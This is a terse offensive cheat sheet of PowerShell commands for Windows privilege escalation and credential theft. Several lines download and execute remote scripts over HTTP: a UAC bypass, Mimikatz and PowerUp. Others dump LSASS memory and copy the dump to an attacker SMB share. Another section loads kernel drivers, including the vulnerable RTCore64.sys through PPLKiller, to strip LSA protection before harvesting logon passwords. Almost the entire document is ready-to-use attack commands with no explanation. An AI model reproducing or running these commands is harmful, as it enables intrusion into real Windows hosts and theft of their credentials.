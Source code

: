 ```powershell
net localgroup 'administrators'
net user /domain

```

##### UAC

```powershell
iex(new-object net.webclient).downloadstring('http://172.21.23.10/uacbypass.ps1');alt
```

##### SeatBelt

```powershell
Seatbelt.exe -group=user
```

##### AccessChk

```powershell
accesschk.exe "currentuser" C:\Windows -wus
accesschk.exe -ucqv servicename
```

##### Minidump

```powershell
.\mini.exe
sudo impacket-smbserver -comment "SHARE" TMP /tmp -smb2support
copy-item -path c:\users\public\lsass.dmp \\172.21.23.27\tmp\lsass.dmp
pypykatz lsa minidump /tmp/lsass.dmp
```

##### Bypass PPL / Mimikatz / PPLKiller

```powershell
Mimikatz PPL

Req: High Mandatory Shell
Transfer mimidrv.sys to machine

sc create mimidrv binPath= C:\Path\to\mimidrv.sys type= kernel start= demand

sc start mimidrv

iex(new-object net.webclient).downloadstring('http://172.21.23.10/mimikatz.txt');invoke-mimikatz -Command !+ ;invoke-mimikatz -Command '"!processprotect /process:lsass.exe /remove; invoke-mimikatz -Command sekurlsa::logonpasswords"

PPLKiller

Req: High Mandatory Shell
upload RTCore64.sys
upload PPLKiller.exe
PPLKiller.exe /installDriver
PPLKiller.exe /disableLSAProtection
```

##### PowerUp

```powershell
iex(new-object net.webclient).downloadstring('http://ip:port/powerup.ps1');invoke-allchecks >$null
```

